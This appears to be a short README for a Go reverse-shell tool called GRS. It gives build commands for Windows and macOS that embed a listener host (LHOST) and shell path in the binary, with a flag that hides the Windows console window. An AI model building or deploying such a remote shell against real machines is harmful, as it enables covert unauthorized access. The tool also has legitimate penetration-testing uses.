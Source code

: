 # GRS
### A Golang reverse shell


#### To build:

Windows:
    $ go build -ldflags "-X 'main.host=**LHOST**' -X 'main.shell=**shell path**' -H windowsgui" "windows/GRS.go"

Darwin:
    $ go build -ldflags "-X 'main.host=**LHOST**' -X 'main.shellPath=**shell path**'" "darwin/GRS.go"
